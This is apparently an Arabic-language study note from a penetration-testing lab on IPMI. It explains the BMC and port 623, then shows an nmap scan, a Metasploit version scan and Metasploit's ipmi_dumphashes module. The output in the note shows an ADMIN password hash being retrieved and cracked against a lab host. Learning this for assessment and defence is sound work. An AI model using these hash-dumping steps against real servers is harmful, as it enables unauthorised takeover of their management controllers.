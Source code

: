 تخيل إنك مسؤول عن سيرفرات في شركة، والسيرفرات دي موجودة في مكان بعيد عنك. لو سيرفر منهم علق أو فصل خالص، هتبقى مشكلة كبيرة ومش هتعرف تتحكم فيه من بعيد.

هنا يجي دور **IPMI**  الـIPMI ده نظام صغير ومستقل موجود في كل سيرفر، وظيفته يخليك تتحكم فيه وتراقبه من بعيد، **حتى لو كان طافي أو معلق أو حتى من غير نظام تشغيل**. هو بيشتغل لوحده وموش محتاج الويندوز أو اللينكس يشتغل عشان هو يشتغل
- من خلال الIMPI تقدر تخش علي ال**BIOS** وتقدر تشغل الجهاز او تطفيه وبرضو لو الجهاز علق تقدر تحل المشكله وانت ف مكانك
- الIMPI بيشتغل علي بورت 623
- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus
---
## Footprinting the Service
#### Nmap

```shell-session
0xTroj6n@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```
#### Metasploit Version Scan

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
- الIPMI فيه ثغرة خطيره جدا وهي لما انت تيجي تعمل Login عادي بتدخل user و password وخلاص
- انما فالIPMI الوضع مختلف وانت بتعمل تسجيل دخول يعني بتقوله انا عاوز اكونكت بالجهاز ده يروح الجهاز باعتلك الهاش بتاع الباسورد تروح عامل crack للhash وشكرا بقي معاك الباس
#### Metasploit Dumping Hashes

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
---
